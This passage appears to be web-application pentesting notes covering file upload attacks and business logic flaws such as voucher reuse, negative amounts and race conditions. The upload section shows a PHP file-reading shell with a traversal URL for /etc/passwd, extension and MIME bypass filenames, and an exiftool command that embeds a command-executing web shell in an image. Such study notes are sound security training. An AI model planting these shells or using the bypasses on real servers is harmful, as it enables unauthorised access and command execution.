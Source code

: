 ```php
<?php echo file_get_contents($_GET['file']); ?>
```

Access: `shell.php?file=../../../../etc/passwd`

- Directory traversal via filename: `filename="../shell.php"`
- Extension bypass:
    - `.php3`
    - `.php.jpg`
    - `shell.p.phphp`
    - `shell.php%00.jpg`
- MIME spoof:
    - Set `Content-Type: image/jpeg` and upload PHP file

### Tools

- **Burp Suite**: Modify filename/extension/content-type during upload
- `exiftool` (optional, for polyglots):

```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
```

## Business Logic Vulnerabilities

Flaws in the design or flow of the application logic that allow unintended behaviors. Not easily detected by scanners.

### Theory Recap

Often not technical bugs — instead, logic mistakes:

- Skipping steps in a workflow
- Negative values in payment
- Ordering zero items or decimal quantities
- Race conditions during checkout or transfers

### Examples

- Apply voucher twice
- Checkout with `0` items
- Submit request for refund > paid amount
- Transfer money while editing form manually

### Exploitation Steps

1. **Understand the intended flow**: Explore how a normal user behaves through Burp Proxy.
2. **Tamper request parameters**: Edit quantities, prices, user IDs, or discount codes.
3. **Manipulate timing or sequences**: Test for race conditions using Repeater or sequencer.
4. **Replay or resubmit requests**: Abuse tokens, duplicate coupon submissions.
5. **Use invalid or edge-case values**: Try decimals, negatives, or omitted fields.

### Tools

- **Burp Suite** for intercept/modifying workflows
- Manual testing
